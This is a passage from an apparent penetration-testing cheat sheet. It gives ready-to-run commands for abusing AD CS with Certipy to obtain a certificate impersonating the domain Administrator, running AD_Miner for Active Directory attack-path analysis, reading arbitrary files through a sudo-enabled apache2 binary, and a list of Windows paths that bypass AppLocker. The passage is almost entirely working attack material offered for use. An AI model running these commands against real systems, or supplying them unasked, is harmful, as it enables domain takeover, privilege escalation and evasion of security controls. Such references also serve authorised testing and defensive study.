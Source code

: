 ```console
$ certipy-ad req -u '<USERNAME>@<DOMAIN>' -p '<PASSWORD>' -ca '<CA>' -template '<TEMPLATE>' -upn 'Administrator@<DOMAIN>' -sid 'S-1-5-21-2983547755-698260136-4283918172-500'
```

#### Fixing Got error while requesting certificate: code: 0x80094811 - CERTSRV_E_KEY_LENGTH - The public key does not meet the minimum size required by the specified certificate template Error

```console
$ certipy-ad req -u '<USERNAME>@<DOMAIN>' -p '<PASSWORD>' -ca '<CA>' -template '<TEMPLATE>' -upn 'Administrator@<DOMAIN>' -key-size '4096'
```

## ADMiner

> https://github.com/Mazars-Tech/AD_Miner

### Installation

```console
$ pipx install 'git+https://github.com/Mazars-Tech/AD_Miner.git'
```

### Basic Commands

```console
$ AD-miner -u <USERNAME> -p <PASSWORD> -cf <NAME>
```

## Apache2

### Read first Line of a File with apache2 Binary

```console
$ sudo /usr/sbin/apache2 -f <FILE>
```

## AppLocker

> https://github.com/api0cradle/UltimateAppLockerByPassList

### Bypass List (Windows 10 Build 1803)

```console
C:\Windows\Tasks
C:\Windows\Temp
C:\Windows\tracing
C:\Windows\Registration\CRMLog
C:\Windows\System32\FxsTmp
C:\Windows\System32\com\dmp
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\PRINTERS
C:\Windows\System32\spool\SERVERS
C:\Windows\System32\spool\drivers\color
C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\System32\Tasks_Migrated (after peforming a version upgrade of Windows 10)
C:\Windows\SysWOW64\FxsTmp
C:\Windows\SysWOW64\com\dmp
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System
```
